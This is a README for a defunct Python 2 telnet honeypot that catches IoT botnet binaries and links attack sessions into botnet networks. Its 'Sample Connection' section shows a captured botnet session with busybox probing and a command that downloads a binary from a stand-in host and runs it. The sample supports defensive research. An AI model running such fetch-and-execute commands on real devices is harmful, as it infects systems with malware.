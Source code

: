 ## Disclaimer

This project neither supported or in development anymore. It is based on python2 which has reached its EOL in 2020 and uses dependencies which keep getting harder to install over time. Use at your own risk! 

# Telnet IoT honeypot

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

The honeypot works by emulating a shell enviroment, just like 
cowrie (https://github.com/micheloosterhof/cowrie).
The aim of this project is primarily to automatically analyse
Botnet connections and "map" Botnets by linking diffrent
connections and even Networks together.

## Architecture

The application has a client/server architecture,
with a client (the actual honeypot) accepting telnet connections
and a server which receives information about connections and
does the analysis.

The backend server exposes a HTTP interface which is used
to access to frontend as well as by the clients to push new
Connection information to the backend.

## Automatic analysis

The Backend uses 2 diffrent mechanisms to automatically link
connections:

### Networks

Networks are discovered Botnets. A network is the set of all linked
connections, urls and samples. Urls and samples
are linked when they are used in a connection. Two connections are linked
when both connections are recieved by the same honeypot client
(mutliple clients are supported!) and use the same credentials in a short
period of time (defautl 2 minutes) or come from the same IP address.

### Malware

Multiple networks are identified to use the same type of malware
if the text entered during sessions of the networks aro mostly the
same. This comparison is done using sort of "hash"-function which
basically translates a session (or connection) into a sequence
of words and then maps each word to a single byte so this resulting
sequence of bytes can be easily searched.

# Running

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Configuration

The backend requires a SQL-database (default sqlite) which is initialized
at first run. Before the first run you should generate a admin account
which is used to generate more users. The admin account can also directly
used by a client to post connections. When more than one honeypots shall be
connected, creating multiple users is recommended.

	bash create_config.sh

Both client and backend will read the files `config.yaml` and `config.dist.yaml`
to read configuration parameters. The `config.dist.yaml` file includes
default values for all but admin user credentials and these parameters
are overwirtten by entries in the `config.yaml` file.

## Running the Server

	python backend.py

## Running the Client

This project contains an own honeypot, however because of the client-server architecture,
other honeypot can be used as well.

### Using the built-in honeypot

	python honeypot.py

The client cannot be started without the server running. To use a diffrent configuration
for the client you can use the `-c` switch like this:

	python honeypot.py -c myconfig.yaml

If you only want to check the honeypot functionality,
you can start the client in interactive mode:

	python honeypot shell

### Using cowrie

I wrote an output plugin for cowrie, which has much more features than the built in honeypot.
If you want to use cowrie instead, checkout my fork which includes the output module here:
https://github.com/Phype/cowrie .

## Opening the frontend

After the server is started, open `http://127.0.0.1/` in your favorite browser.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)

![Screenshot 3](images/screen3.png)
